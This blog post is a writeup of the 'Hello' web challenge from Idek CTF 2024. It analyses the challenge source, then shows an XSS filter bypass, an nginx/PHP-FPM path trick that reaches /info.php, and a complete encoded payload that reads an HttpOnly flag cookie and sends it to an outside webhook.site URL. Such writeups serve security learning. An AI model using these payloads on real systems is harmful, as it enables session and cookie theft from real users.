 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


After a long hiatus from updating articles, this time an update will cover the writeup for the Web Idek CTF 2024 challenge called 'Hello'. This article is being written because it is considered particularly interesting.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the`
`.chal.idek.team:1337 URL should be used for the admin bot URL`

`Author: Abdelhameed Ghazy`

[Chall](http://idek-hello.chal.idek.team:1337/)\
[Admin Bot](https://admin-bot.idek.team/idek-hello)\
[Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Since this challenge is a Whitebox challenge with the provided source code, a source code review must be conducted first. The structure of the provided source code files is as follows:

├── bot.js\
├── docker-compose.yml\
├── hello\
│   ├── Dockerfile\
│   ├── init.sh\
│   ├── nginx.conf\
│   └── src\
│   ├── index.php\
│   └── info.php

3 directories, 8 files

Based on the file structure, there is a bot.js file, which likely indicates a typical client-side challenge.

**First Analysis on the bot.js:**

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

According to the bot.js file, the FLAG is located in the bot’s cookies, which are simulated as Admin user. Given that the FLAG is stored in a cookie, it can be inferred that this is a Cross-site Scripting (XSS) challenge. However, it is important to note that the cookie has the 'httponly' attribute set to 'true'. This means there is protection in place, preventing the stealing of cookies using JavaScript's document.cookie.

Based on an article from [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), it is possible to bypass HttpOnly and exfiltrate cookies via the PHP Info page.

**Second Analysis on the index.php:**

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

In the index.php file, there is a Cross-site Scripting (XSS) vulnerability in the 'name' parameter, which renders user input. However, there is a filter in the Enhanced_Trim function that prevents the use of characters such as '\r', '\n', '\t', '/', and ' ' (spaces) for constructing the XSS payload.

**Third Analysis on the nginx.conf:**

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

In the Nginx configuration file, there is a vulnerability related to unsafe path restrictions to the /info.php endpoint. Without further research, it might seem that the info.php file is not the way to obtain the FLAG in the Admin’s cookies. However, as outlined in the [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) cookies can be exfiltrated via the PHP Info page, making this page highly valuable. It is also noted that the website is using PHP-FPM..

**How to Solve?**\
From the analysis conducted, the steps to solve the challenge can be outlined as follows:

1. Bypass the Cross-site Scripting (XSS) filter on the /index.php endpoint using the 'name' parameter (http://target/index.php?name=payload)
2. Bypass the unsafe path restriction to gain access to the info.php (http://target/info.php) page
3. Exfiltrate Admin cookies via the PHP Info page

Since the flow is now clear, exploitation can begin immediately.

**Bypass Filter XSS:**

1. Bypass spaces (' ') using the null byte %0, referencing [ctftime](https://ctftime.org/writeup/32720)
2. Bypass slashes ('/') using String.fromCharCode.

**Bypass Path Restriction Nginx PHP-FPM:**

1. Access to /info.php, which should only be allowed from 127.0.0.1, can be bypassed through path manipulation (http://target/info.php/index.php) [sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

**Final Payload:**\
Using the discovered bypass techniques, an XSS payload is constructed to steal cookies from the PHP Info page using the following regex:

```javascript
// Convert to decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Final Payload
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Simply send the final payload to the Admin Bot, and the Bot will trigger the payload to exfiltrate the FLAG via the PHP Info page, allowing the flag to be retrieved through the webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag:** idek{Ghazy_N3gm_Elbalad}

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
